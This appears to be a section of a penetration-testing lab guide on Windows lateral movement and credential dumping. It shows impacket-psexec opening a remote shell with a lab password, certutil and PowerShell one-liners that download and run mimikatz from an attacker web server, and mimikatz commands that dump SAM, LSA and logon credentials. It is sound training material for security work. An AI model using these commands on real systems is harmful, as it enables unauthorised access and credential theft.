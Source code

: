 ### 1.5.2. Using impacket-psexec

The user must be administrator on the target because PsExec uses the `ADMIN$` to run the service manager

```console
root@kali:~# impacket-psexec lab.vx/mike:P@ssw0rd@192.168.17.11
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.17.11.....
[*] Found writable share ADMIN$
[*] Uploading file UJIrOtIJ.exe
[*] Opening SVCManager on 192.168.17.11.....
[*] Creating service AXhI on 192.168.17.11.....
[*] Starting service AXhI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.1129]
(c) 2016 Microsoft Corporation. All rights reserved.
```

# 2. Cached Credential Storage and Retrieval

**On Kali:** Prepare web server for `mimikatz` download

Prepare files to web server root

```sh
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe /var/www/html
```

**On Target:** Download and run `mimikatz`

|   |   |
|---|---|
|certutil|`certutil.exe /urlcache /f /split http://kali.vx/mimikatz.exe %TEMP%\mimikatz.exe && %TEMP%\mimikatz.exe`|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/mimikatz.exe','%TEMP%\mimikatz.exe'); Start-Process %TEMP%\mimikatz.exe`|

**On Target:** mimikatz commands

- Ref: <https://tools.thehacker.recipes/mimikatz>

|Command|Function|
|---|---|
|`privilege::debug`|Requests the debug privilege `SeDebugPrivilege`; required to debug and adjust the memory of a process owned by another account|
|`token::elevate`|Impersonates a SYSTEM token (default) or domain admin token (using `/domainadmin`)|
|`lsadump::sam`|Dumps the local Security Account Manager (SAM) NT hashes; operate directly on the target system, or offline with registry hives backups (for SAM and SYSTEM)|
|`lsadump::lsa /patch`|Extracts hashes from memory by asking the LSA server; `/patch` or `/inject` takes place on the fly|
|`sekurlsa::logonpasswords`|Lists all available provider credentials; usually shows recently logged on user and computer credentials|

> [!Important]
> 
> mimikatz needs to run from an elevated shell
>
> <details><summary>running mimikatz from a non-elevated shell will not work:</summary></details>
